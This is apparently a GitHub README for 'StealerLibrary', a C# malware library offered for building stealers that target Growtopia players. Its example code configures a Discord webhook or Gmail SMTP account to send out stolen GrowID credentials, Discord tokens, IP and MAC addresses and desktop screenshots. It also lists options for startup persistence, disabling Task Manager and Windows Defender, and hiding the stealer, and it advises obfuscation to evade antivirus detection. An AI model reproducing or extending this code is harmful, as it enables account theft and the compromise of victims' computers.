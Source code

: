 # StealerLibrary
Growtopia (Save.dat) Stealer Library that let you to write a stealer with 1 line of code.
#### ⭐ If you like the project, feel free to star the project ⭐

## Compiled Version: [Download](https://github.com/extatent/StealerLibrary/releases/)

### Compile the source code with Visual Studio and add the .DLL to the references in your project and start writting the code below.

#### Your program might be FUD, but the .DLL isn't. Use obfuscator for that.

## Example Usage : 

```csharp
using StealerLibrary;

namespace Example
{
    class Program
    {
        private static void Main()
        {
            //Discord Webhook Method
            Library.DiscordWebhookUrl = "https://discord.com/api/webhooks/example/example";
            Library.WebhookName = "StealerLibrary"; //Optional
            Library.WebhookProfilePictureUrl = ""; //Optional
            
            //Last World, MAC Address, IP Address, Discord Token, User Name, Machine Name, OS Information, Country, Desktop Screenshot
            Library.DiscordStealer(true, true, true, true, true, true, true, true, true);
            
            //Gmail Method
            Library.Gmail = "example@gmail.com";
            Library.GmailPassword = "Example12345.";
            Library.SMTPServer = "smtp.gmail.com"; //Default
            Library.SMTPPort = 587; //Default
            
            //Last World, MAC Address, IP Address, Discord Token, User Name, Machine Name, OS Information, Country, Desktop Screenshot
            Library.GmailStealer(true, true, true, true, true, true, true, true, true);
            
            //Run On Startup, Disable Task Manager, Corrupt Growtopia, Hide Stealer, Disable Windows Defender
            Library.Functions(true, false, true, false, false);
            
            //Trace Save.dat for Discord/Gmail
            Library.TraceSaveDat(true, false);
        }
    }
}
```

## Features
### V1
- GrowID
- Password
- Last World (Customizable: True/False)
- MAC Address (Customizable: True/False)
- IP Address (Customizable: True/False)
### V2
- Discord Token (Customizable: True/False)
- User Name (Customizable: True/False)
- Machine Name (Customizable: True/False)
- OS Information (Customizable: True/False)
- Country (Customizable: True/False)
- Desktop Screenshot (Customizable: True/False)
### V3
- Gmail Method (Optional)
- Trace Save.dat (Customizable: True/False)
- Run On Startup (Customizable: True/False)
- Disable Task Manager (Customizable: True/False)
- Corrupt Growtopia (Customizable: True/False)
- Hide Stealer (Customizable: True/False)
- Disable Windows Defender (Customizable: True/False)

<img src="http://anarchy.5v.pl/example2.png" alt="png">

## StealerLibrary is licensed under the GNU General Public License v3.0. See the [LICENSE](https://github.com/extatent/StealerLibrary/blob/main/LICENSE) file for details.
